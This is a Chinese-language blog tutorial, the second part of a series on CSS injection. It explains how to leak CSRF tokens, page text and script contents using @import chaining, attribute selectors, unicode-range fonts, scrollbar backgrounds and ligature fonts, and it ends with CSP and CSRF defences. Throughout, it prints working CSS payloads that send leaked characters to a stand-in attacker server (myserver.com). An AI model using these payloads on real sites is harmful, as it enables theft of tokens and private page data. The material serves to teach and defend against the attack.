

# 只用 CSS 也能攻擊？CSS injection（下）

在前一篇裡面，我們知道了基本的 CSS 偷資料原理，並且以 HackMD 作為實際案例示範，成功偷到了 CSRF token，而這篇則是要深入去看 CSS injection 的一些細節，解決以下問題：

1. HackMD 因為可以即時同步內容，所以不需要重新整理就可以載入新的 style，那其他網站呢？該怎麼偷到第二個以後的字元？
2. 一次只能偷一個字元的話，是不是要偷很久呢？這在實際上可行嗎？
3. 有沒有辦法偷到屬性以外的東西？例如說頁面上的文字內容，或甚至是 JavaScript 的程式碼？
4. 針對這個攻擊手法的防禦方式有哪些？

## 偷到所有字元

在上集裡面我們有提到，我們想偷的資料有可能只要重新整理以後就會改變（如 CSRF token），所以必須在不重新整理的狀況之下載入新的 style。

上一篇裡面之所以做得到，是因為 HackMD 本身就是一個標榜即時更新的服務，但如果是一般的網頁呢？在不能用 JavaScript 的情況下，該如何不斷動態載入新的 style？

有關於這個問題，在 Pepe Vila 於 2019 年分享的 [CSS Injection Attacks](https://vwzq.net/slides/2019-s3_css_injection_attacks.pdf) 這份簡報裡面給出了解答：[@import](https://developer.mozilla.org/en-US/docs/Web/CSS/@import)。

在 CSS 裡面，你可以用 `@import` 去把外部的其他 style 引入進來，就像 JavaScript 的 `import` 那樣。

可以利用這個功能做出引入 style 的迴圈，如下面的程式碼：

``` css
@import url(https://myserver.com/start?len=8)
```

接著，在 server 回傳如下的 style：

``` css
@import url(https://myserver.com/payload?len=1)
@import url(https://myserver.com/payload?len=2)
@import url(https://myserver.com/payload?len=3)
@import url(https://myserver.com/payload?len=4)
@import url(https://myserver.com/payload?len=5)
@import url(https://myserver.com/payload?len=6)
@import url(https://myserver.com/payload?len=7)
@import url(https://myserver.com/payload?len=8)
```

重點來了，這邊雖然一次引入了 8 個，但是「後面 7 個 request，server 都會先 hang 住，不會給 response」，只有第一個網址 `https://myserver.com/payload?len=1` 會回傳 response，內容為之前提過的偷資料 payload：

``` css
input[name="secret"][value^="a"] {
  background: url(https://b.myserver.com/leak?q=a)
}

input[name="secret"][value^="b"] {
  background: url(https://b.myserver.com/leak?q=b)
}

input[name="secret"][value^="c"] {
  background: url(https://b.myserver.com/leak?q=c)
}

//....

input[name="secret"][value^="z"] {
  background: url(https://b.myserver.com/leak?q=z)
}
```

當瀏覽器收到 response 的時候，就會先載入上面這一段 CSS，載入完以後符合條件的元素就會發 request 到後端，假設第一個字是 d 好了，接著 server 這時候才回傳 `https://myserver.com/payload?len=2` 的 response，內容為：

``` css
input[name="secret"][value^="da"] {
  background: url(https://b.myserver.com/leak?q=da)
}

input[name="secret"][value^="db"] {
  background: url(https://b.myserver.com/leak?q=db)
}

input[name="secret"][value^="dc"] {
  background: url(https://b.myserver.com/leak?q=dc)
}

//....

input[name="secret"][value^="dz"] {
  background: url(https://b.myserver.com/leak?q=dz)
}
```

以此類推，只要不斷重複這些步驟，就可以把所有字元都傳到 server 去，靠的就是 `import` 會先載入已經下載好的 resource，然後去等待還沒下載好的特性。

這邊有一點要特別注意，你會發現我們載入 style 的 domain 是 `myserver.com`，而背景圖片的 domain 是 `b.myserver.com`，這是因為瀏覽器通常對於一個 domain 能同時載入的 request 有數量上的限制，所以如果你全部都是用 `myserver.com` 的話，會發現背景圖片的 request 送不出去，都被 CSS import 給卡住了。

因此需要設置兩個 domain，來避免這種狀況。

除此之外，上面這種方式在 Firefox 是行不通的，因為在 Firefox 上就算第一個的 response 先回來，也不會立刻更新 style，要等所有 request 都回來才會一起更新。解法的話可以參考 Michał Bentkowski（有沒有覺得名字很眼熟？）寫的這一篇：[CSS data exfiltration in Firefox via a single injection point](https://research.securitum.com/css-data-exfiltration-in-firefox-via-single-injection-point/)，把第一步的 import 拿掉，然後每一個字元的 import 都用額外的 style 包著，像這樣：

``` html
<style>@import url(https://myserver.com/payload?len=1)</style>
<style>@import url(https://myserver.com/payload?len=2)</style>
<style>@import url(https://myserver.com/payload?len=3)</style>
<style>@import url(https://myserver.com/payload?len=4)</style>
<style>@import url(https://myserver.com/payload?len=5)</style>
<style>@import url(https://myserver.com/payload?len=6)</style>
<style>@import url(https://myserver.com/payload?len=7)</style>
<style>@import url(https://myserver.com/payload?len=8)</style>
```

而上面這樣 Chrome 也是沒問題的，所以統一改成上面這樣，就可以同時支援兩種瀏覽器了。

總結一下，只要用 `@import` 這個 CSS 的功能，就可以做到「不重新載入頁面，但可以動態載入新的 style」，進而偷取後面的每一個字元。

## 一次偷一個字元，太慢了吧？

若是想要在現實世界中執行這種攻擊，效率可能要再更好一點。以 HackMD 為例，CSRF token 總共有 36 個字，所以就要發 36 個 request，確實是太多了點。

事實上，我們一次可以偷兩個字元，因為上集有講過除了 prefix selector 以外，也有 suffix selector，所以可以像這樣：

``` css
input[name="secret"][value^="a"] {
  background: url(https://b.myserver.com/leak?q=a)
}

input[name="secret"][value^="b"] {
  background: url(https://b.myserver.com/leak?q=b)
}

// ...
input[name="secret"][value$="a"] {
  border-background: url(https://b.myserver2.com/suffix?q=a)
}

input[name="secret"][value$="b"] {
  border-background: url(https://b.myserver2.com/suffix?q=b)
}
```

除了偷開頭以外，我們也偷結尾，效率立刻變成兩倍。要特別注意的是開頭跟結尾的 CSS，一個用的是 `background`，另一個用的是 `border-background`，是不同的屬性，因為如果用同一個屬性的話，內容就會被其他的蓋掉，最後只會發出一個 request。

若是內容可能出現的字元不多，例如說 16 個的話，那我們可以直接一次偷兩個開頭加上兩個結尾，總共的 CSS rule 數量為 `16*16*2` = 512 個，應該還在可以接受的範圍內，就能夠再加速兩倍。

除此之外，也可以朝 server 那邊去改善，例如說改用 HTTP/2 或甚至是 HTTP/3，都有機會能夠加速 request 載入的速度，進而提升效率。

## 偷其他東西

除了偷屬性之外，有沒有辦法偷到其他東西？例如說，頁面上的其他文字？或甚至是 script 裡面的程式碼？

根據我們在上一篇裡面講的原理，是做不到的。因為能偷到屬性是因為「屬性選擇器」這個東西，才讓我們選到特定的元素，而在 CSS 裡面，並沒有可以選擇「內文」的選擇器。

因此，我們需要對 CSS 以及網頁上的樣式有更深入的理解，才有辦法達成這件看似不可能的任務。

### unicode-range

在 CSS 裡面，有一個屬性叫做「unicode-range」，可以針對不同的字元，載入不同的字體。像是底下這個從 [MDN](https://developer.mozilla.org/en-US/docs/Web/CSS/@font-face/unicode-range) 拿來的範例：

``` html
<!DOCTYPE html>
<html>
  <body>
    <style>
      @font-face {
        font-family: "Ampersand";
        src: local("Times New Roman");
        unicode-range: U+26;
      }

      div {
        font-size: 4em;
        font-family: Ampersand, Helvetica, sans-serif;
      }
    </style>
    <div>Me & You = Us</div>
  </body>
</html>

```

`&` 的 unicode 是 `U+0026`，因此只有 `&` 這個字會用不同的字體來顯示，其他都用同一個字體。

這招前端工程師可能有用過，例如說英文跟中文如果要用不同字體來顯示，就很適合用這一招。而這招也可以用來偷取頁面上的文字，像這樣：

``` html
<!DOCTYPE html>
<html>
  <body>
    <style>
      @font-face {
        font-family: "f1";
        src: url(https://myserver.com?q=1);
        unicode-range: U+31;
      }

      @font-face {
        font-family: "f2";
        src: url(https://myserver.com?q=2);
        unicode-range: U+32;
      }

      @font-face {
        font-family: "f3";
        src: url(https://myserver.com?q=3);
        unicode-range: U+33;
      }

      @font-face {
        font-family: "fa";
        src: url(https://myserver.com?q=a);
        unicode-range: U+61;
      }

      @font-face {
        font-family: "fb";
        src: url(https://myserver.com?q=b);
        unicode-range: U+62;
      }

      @font-face {
        font-family: "fc";
        src: url(https://myserver.com?q=c);
        unicode-range: U+63;
      }

      div {
        font-size: 4em;
        font-family: f1, f2, f3, fa, fb, fc;
      }
    </style>
    Secret: <div>ca31a</div>
  </body>
</html>
```

如果你去看 network tab，會看到一共發送了 4 個 request：


藉由這招，我們可以得知頁面上有：13ac 這四個字元。

而這招的侷限之處也很明顯，就是：

1. 我們不知道字元的順序為何
2. 重複的字元也不會知道

但是從「載入字型」的角度下去思考怎麼偷到字元，著實帶給了許多人一個新的思考方式，並發展出各式各樣其他的方法。

### 字體高度差異 + first-line + scrollbar

這招要解決的主要是上一招碰到的問題：「沒辦法知道字元順序」，然後這招結合了很多細節，步驟很多，要仔細聽了。

首先，我們其實可以不載入外部字體，用內建的字體就能 leak 出字元。這要怎麼做到呢？我們要先找出兩組內建字體，高度會不同。

例如有一個叫做「Comic Sans MS」的字體，高度就比另一個「Courier New」高。

舉個例子，假設預設字體的高度是 30px，而 Comic Sans MS 是 45px 好了。那現在我們把文字區塊的高度設成 40px，並且載入字體，像這樣：

``` html
<!DOCTYPE html>
<html>
  <body>
    <style>
      @font-face {
        font-family: "fa";
        src:local('Comic Sans MS');
        font-style:monospace;
        unicode-range: U+41;
      }
      div {
        font-size: 30px;
        height: 40px;
        width: 100px;
        font-family: fa, "Courier New";
        letter-spacing: 0px;
        word-break: break-all;
        overflow-y: auto;
        overflow-x: hidden;
      }
      
    </style>
    Secret: <div>DBC</div>
    <div>ABC</div>
  </body>
</html>
```

就會在畫面上看到差異：


很明顯 A 比其他字元的高度都高，而且根據我們的 CSS 設定，如果內容高度超過容器高度，會出現 scrollbar。雖然上面是截圖看不出來，但是下面的 ABC 有出現 scrollbar，而上面的 DBC 沒有。

再者，我們其實可以幫 scrollbar 設定一個外部的背景：

``` css
div::-webkit-scrollbar {
    background: blue;
}

div::-webkit-scrollbar:vertical {
    background: url(https://myserver.com?q=a);
}
```

也就是說，如果 scrollbar 有出現，我們的 server 就會收到 request。如果 scrollbar 沒出現，就不會收到 request。

更進一步來說，當我把 div 套用 `fa` 字體時，如果畫面上有 A，就會出現 scrollbar，server 就會收到 request。如果畫面上沒有 A，就什麼事情都不會發生。

因此，如果一直重複載入不同字體，那 server 就能知道畫面上有什麼字元，這點跟剛剛我們用 `unicode-range` 能做到的事情是一樣的。

那要怎麼解決順序的問題呢？

我們可以先把 div 的寬度縮減到只能顯示一個字元，這樣其他字元就會被放到第二行去，再搭配 [::first-line](https://developer.mozilla.org/en-US/docs/Web/CSS/::first-line) 這個 selector，就可以特別針對第一行做樣式的調整，像是這樣：

``` html
<!DOCTYPE html>
<html>
  <body>
    <style>
      @font-face {
        font-family: "fa";
        src:local('Comic Sans MS');
        font-style:monospace;
        unicode-range: U+41;
      }
      div {
        font-size: 0px;
        height: 40px;
        width: 20px;
        font-family: fa, "Courier New";
        letter-spacing: 0px;
        word-break: break-all;
        overflow-y: auto;
        overflow-x: hidden;
      }

      div::first-line{
        font-size: 30px;
      }

    </style>
    Secret: <div>CBAD</div>
  </body>
</html>
```

畫面上就只會看到一個「C」的字元，因為我們先用 `font-size: 0px` 把所有字元的尺寸都設為 0，再用 `div::first-line` 去做調整，讓第一行的 font-size 變成 30px。換句話說，只有第一行的字元能看到，而現在的 div 寬度只有 20px，所以只會出現第一個字元。

接著，我們再運用剛剛學會的那招，去載入看看不同的字體。當我載入 fa 這個字體時，因為畫面上沒有出現 A，所以不會有任何變化。但是當我載入 fc 這個字體時，畫面上有 C，所以就會用 Comic Sans MS 來顯示 C，高度就會變高，scrollbar 就會出現，就可以利用它來發出 request，像這樣：

``` css
div {
  font-size: 0px;
  height: 40px;
  width: 20px;
  font-family: fc, "Courier New";
  letter-spacing: 0px;
  word-break: break-all;
  overflow-y: auto;
  overflow-x: hidden;
  --leak: url(http://myserver.com?C);
}

div::first-line{
  font-size: 30px;
}

div::-webkit-scrollbar {
  background: blue;
}

div::-webkit-scrollbar:vertical {
  background: var(--leak);
}
```

那我們要怎麼樣不斷使用新的 font-family 呢？用 CSS animation 就可以做到，你可以用 CSS animation 不斷載入不同的 font-family 以及指定不同的 `--leak` 變數。

如此一來，我們就能知道畫面上的第一個字元到底是什麼。

知道了第一個字元以後，我們把 div 的寬度變長，例如說變成 40px，就能容納兩個字元，因此第一行就會是前兩個字，接著再用一樣的方式載入不同的 font-family，就能 leak 出第二個字元，詳細流程如下：

1. 假設畫面上是 ACB
2. 調整寬度為 20px，第一行只出現第一個字元 A
3. 載入字體 fa，因此 A 用較高的字體顯示，出現 scrollbar，載入 scrollbar 背景，傳送 request 給 server
4. 載入字體 fb，但是 B 沒有出現在畫面上，因此沒有任何變化。
5. 載入字體 fc，但是 C 沒有出現在畫面上，因此沒有任何變化。
6. 調整寬度為 40px，第一行出現兩個字元 AC
7. 載入字體 fa，因此 A 用較高的字體顯示，出現 scrollbar，此時應該是因為這個背景已經載入過，所以不會發送新的 request
8. 載入字體 fb，沒出現在畫面上，沒任何變化
9. 載入字體 fc，C 用較高的字體顯示，出現 scrollbar 並且載入背景
10. 調整寬度為 60px，ACB 三個字元都出現在第一行
11. 載入字體 fa，同第七步
12. 載入字體 fb，B 用較高的字體顯示，出現 scrollbar 並且載入背景
13. 載入字體 fc，C 用較高的字體顯示，但因為已經載入過相同背景，不會發送 request
14. 結束

從上面流程中可以看出 server 會依序收到 A, C, B 三個 reqeust，代表了畫面上字元的順序。而不斷改變寬度以及 font-family 都可以用 CSS animation 做到。

想要看完整 demo 的可以看這個網頁（出處：[What can we do with single CSS injection?](https://www.reddit.com/r/Slackers/comments/dzrx2s/what_can_we_do_with_single_css_injection/)）：https://demo.vwzq.net/css2.html

這個解法雖然解決了「不知道字元順序」的問題，但依然無法解決重複字元的問題，因為重複的字元不會再發出 request。

### 大絕招：ligature + scrollbar

先講結論，這一招可以解決上面所有問題，達成「知道字元順序，也知道重複字元」的目標，能夠偷到完整的文字。

要理解怎麼偷之前，我們要先知道一個專有名詞，叫做連字（ligature），在某些字型當中，會把一些特定的組合 render 成連在一起的樣子，如下圖（來源：[wikipedia](https://en.wikipedia.org/wiki/Ligature_(writing))）：


那這個對我們有什麼幫助呢？

我們可以自己製作出一個獨特的字體，把 `ab` 設定成連字，並且 render 出一個超寬的元素。接著，我們把某個 div 寬度設成固定，然後結合剛剛 scrollbar 那招，也就是：「如果 ab 有出現，就會變很寬，scrollbar 就會出現，就可以載入 request 告訴 server；如果沒出現，那 scrollbar 就不會出現，沒有任何事情發生」。

流程是這樣的，假設畫面上有 acc 這三個字：

1. 載入有連字 aa 的字體，沒事發生
2. 載入有連字 ab 的字體，沒事發生
3. 載入有連字 ac 的字體，成功 render 超寬的畫面，scrollbar 出現，載入 server 圖片
4. server 知道畫面上有 ac
5. 載入有連字 aca 的字體，沒事發生
6. 載入有連字 acb 的字體，沒事發生
7. 載入有連字 acc 的字體，成功 render，scrollbar 出現，傳送結果給 server
8. server 知道畫面上有 acc

透過連字結合 scrollbar，我們可以一個字元一個字元，慢慢 leak 出畫面上所有的字，甚至連 JavaScript 的程式碼都可以！

你知道，script 的內容是可以顯示在畫面上的嗎？

``` css
head, script {
  display: block;
}
```

只要加上這個 CSS，就可以讓 script 內容也顯示在畫面上，因此我們也可以利用同樣的技巧，偷到 script 的內容！

在實戰上的話，可以用 SVG 搭配其他工具，在 server 端迅速產生字體，想要看細節以及相關程式碼的話，可以參考 Michał Bentkowski 寫的這篇：[Stealing Data in Great style – How to Use CSS to Attack Web Application.](https://research.securitum.com/stealing-data-in-great-style-how-to-use-css-to-attack-web-application/)

而 Masato Kinugawa 做了一個 Safari 版本的 demo，因為 Safari 支援 SVG font，所以不需要再從 server 產生字型，原始文章在這裡：[Data Exfiltration via CSS + SVG Font - PoC (Safari only)](https://github.com/masatokinugawa/css-exfiltration-svg-font/)

而這邊我就簡單做個簡化到不行的 demo，來證明這件事情是可行的。

``` html
<!DOCTYPE html>
<html lang="en">
<body>
  <script>
    var secret = "abc123"
  </script>
  <hr>
  <script>
    var secret2 = "cba321"
  </script>
  <svg>
    <defs>
    <font horiz-adv-x="0">
      <font-face font-family="hack" units-per-em="1000" />
        <glyph unicode='"a' horiz-adv-x="99999" d="M1 0z"/>
      </font>
    </defs>
  </svg>
  <style>
    script {
      display: block;
      font-family:"hack";
      white-space:n owrap;
      overflow-x: auto;
      width: 500px;
      background:lightblue;
    }

    script::-webkit-scrollbar {
      background: blue;
    }

  </style>
</body>
</html>
```

我用 script 放了兩段 JS，裡面內容分別是 `var secret = "abc123"` 跟 `var secret2 = "cba321"`，接著利用 CSS 載入我準備好的字體，只要有 `"a` 的連字，就會寬度超寬。

再來如果 scrollbar 有出現，我把背景設成藍色的，比較顯眼，最後的結果如下：



上面因為內容是 `var secret = "abc123"`，所以符合了 `"a` 的連字，因此寬度變寬，scrollbar 出現。

下面因為沒有 `"a`，所以 scrollbar 沒出現（有 a 的地方都會缺字，應該跟我沒有定義其他的 glyph 有關，但不影響結果）

只要把 scrollbar 的背景換成 URL，就可以從 server 端知道 leak 的結果。

如果想看實際的 demo 跟 server 端的寫法，可以參考上面附的那兩篇文章。

## 防禦方式

最後我們來講一下防禦方式，最簡單明瞭的當然就是直接把 style 封起來不給用，基本上就不會有 CSS injection 的問題（除非實作方式有漏洞）。

如果真的要開放 style，也可以用 CSP 來阻擋一些資源的載入，例如說 `font-src` 就沒有必要全開，`style-src` 也可以設置 allow list，就能夠擋住 `@import` 這個語法。

再來，也可以考慮到「如果頁面上的東西被拿走，會發生什麼事情」，例如說 CSRF token 被拿走，最壞就是 CSRF，此時就可以實作更多的防護去阻擋 CSRF，就算攻擊者取得了 CSRF token，也沒辦法 CSRF（例如說多檢查 origin header 之類的）。

## 小結

CSS 果真博大精深，真的很佩服這些前輩們可以把 CSS 玩出這麼多花樣，發展出這麼多令人眼界大開的攻擊手法。當初在研究的時候，利用屬性選擇器去 leak 這個我可以理解，用 `unicode-range` 我也能理解，但是那個用文字高度加上 CSS animation 去變化的，我花了不少時間才搞懂那在幹嘛，連字那個雖然概念好懂，但真的要實作還是會碰到不少問題。

這兩篇上下集主要算是介紹一下 CSS injection 這個攻擊手法，因此實際的程式碼並不多，而這些攻擊手法都參考自前人們的文章，列表我會附在下面，有興趣的話可以閱讀原文，會講得更詳細一點。

參考資料：

1. [CSS Injection Attacks](https://vwzq.net/slides/2019-s3_css_injection_attacks.pdf)
2. [CSS Injection Primitives](https://x-c3ll.github.io/posts/CSS-Injection-Primitives/)
3. [HackTricks - CSS Injection](https://book.hacktricks.xyz/pentesting-web/xs-search/css-injection)
4. [Stealing Data in Great style – How to Use CSS to Attack Web Application.](https://research.securitum.com/stealing-data-in-great-style-how-to-use-css-to-attack-web-application/)
5. [Data Exfiltration via CSS + SVG Font](https://mksben.l0.cm/2021/11/css-exfiltration-svg-font.html)
6. [Data Exfiltration via CSS + SVG Font - PoC (Safari only)](https://github.com/masatokinugawa/css-exfiltration-svg-font/)
7. [CSS data exfiltration in Firefox via a single injection point](https://research.securitum.com/css-data-exfiltration-in-firefox-via-single-injection-point/)
